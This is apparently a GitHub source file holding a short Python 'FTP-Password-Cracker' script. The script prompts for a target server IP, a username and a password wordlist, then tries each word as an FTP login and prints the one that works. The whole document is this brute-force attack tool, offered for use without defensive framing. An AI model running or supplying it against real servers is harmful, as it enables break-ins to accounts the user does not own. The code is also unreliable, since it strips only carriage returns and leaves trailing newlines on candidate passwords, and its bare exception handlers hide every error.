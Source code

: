 # FTP-Password-Cracker
import ftplib

# take user input IP of the FTP Server

server = input("What is the IP address of the FTP Server :")
print("Entered IP address is : ",server)

# take username as an input

username = input("What is the username of the system you want to crack :")
print("Entered Username is : ",username)

# take user input of the password list filename or location of the password list

passwordlist = input("Provide the path or filename of your password-list : ")
print("Entered path or filename is : ",passwordlist)

# use this try/except to attempt to connect to FTP server

try :
    with open(passwordlist, 'r') as pw :
        for word in pw :
            word = word.strip('\r')

            try :
                ftp = ftplib.FTP(server)
                ftp.login(username,word)
                print("Success!!! You have connected to the FTP server. The password is : ", word)
                ftp.quit()

            except :
                print("still trying...........")
except :
    print("...............wordlist error. Please enter the correct path or filename....................")
